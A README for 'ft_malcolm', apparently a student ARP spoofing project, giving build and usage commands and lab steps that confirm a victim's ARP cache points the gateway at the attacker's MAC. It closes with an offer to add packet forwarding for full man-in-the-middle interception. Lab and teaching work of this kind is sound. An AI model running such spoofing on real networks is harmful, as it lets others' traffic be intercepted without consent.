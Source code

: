 # ft\_malcolm

## Overview

`ft_malcolm` is a simple ARP spoofing tool that allows an attacker to impersonate a gateway and manipulate the ARP table of a victim machine. This enables a Man-in-the-Middle (MITM) attack, where the attacker intercepts the victim’s network traffic.

## How It Works

`ft_malcolm` listens for ARP requests from the victim machine and replies with a fake ARP response, claiming that the attacker's MAC address belongs to the gateway’s IP. Once the victim updates its ARP cache, it starts sending network traffic intended for the gateway to the attacker instead.

## Attack Scenario

- **Attacker**: Runs `ft_malcolm` to spoof the gateway's MAC address.
- **Victim**: Sends an ARP request asking for the gateway’s MAC.
- **Attacker**: Sends a spoofed ARP reply, claiming to be the gateway.
- **Victim**: Updates its ARP table and sends traffic to the attacker instead of the real gateway.

## Installation

To compile `ft_malcolm`, run:

```sh
make
```

This generates the `ft_malcolm` executable.

## Usage

```sh
sudo ./ft_malcolm <gateway_ip> <attacker_mac> <victim_ip> <victim_mac>
```

### Example:

```sh
sudo ./ft_malcolm 172.168.238.1 02:42:ac:a8:ee:04 172.168.238.3 02:42:ac:a8:ee:03
```

This command:

- Spoofs the **gateway** (`172.168.238.1`) by responding with the **attacker's MAC** (`02:42:ac:a8:ee:04`).
- Targets the **victim** (`172.168.238.3`) with its **real MAC** (`02:42:ac:a8:ee:03`).

## Testing ft\_malcolm

To verify that the attack is working, follow these steps:

### 1️⃣ Run `ft_malcolm` on the Attacker:

```sh
sudo ./ft_malcolm 172.168.238.1 02:42:ac:a8:ee:04 172.168.238.3 02:42:ac:a8:ee:03
```

### 2️⃣ Send ARP Requests from the Victim:

On the **victim machine** (`172.168.238.3`), run:

```sh
arping -c 5 -I eth0 172.168.238.1
```

This sends ARP requests asking *"Who has 172.168.238.1?"*.

### 3️⃣ Verify the Attack:

After running `arping`, check the victim’s ARP table:

```sh
ip neigh show
```

Expected output (if successful):

```
172.168.238.1 dev eth0 lladdr 02:42:ac:a8:ee:04 REACHABLE
```

✅ The gateway’s MAC address has been replaced with the attacker’s MAC.

### 4️⃣ Capture Packets with tcpdump (Optional):

To confirm that the attacker is sending ARP replies, run on the **victim**:

```sh
sudo tcpdump -n -i eth0 arp
```

You should see something like:

```
21:15:32.123456 ARP, Reply 172.168.238.1 is-at 02:42:ac:a8:ee:04
```

✅ The attacker is successfully sending fake ARP replies.

## Conclusion

- `ft_malcolm` successfully poisons the victim’s ARP table, tricking it into sending traffic to the attacker.
- The attack can be verified using `ip neigh show` and `tcpdump`.
- This method enables MITM attacks, where the attacker can intercept and manipulate traffic.

⚠ **Disclaimer**: This tool is for educational and research purposes only. Unauthorized use is illegal.

---

### 🔥 Next Steps

Would you like to implement packet forwarding to act as a real MITM and capture traffic? 🚀

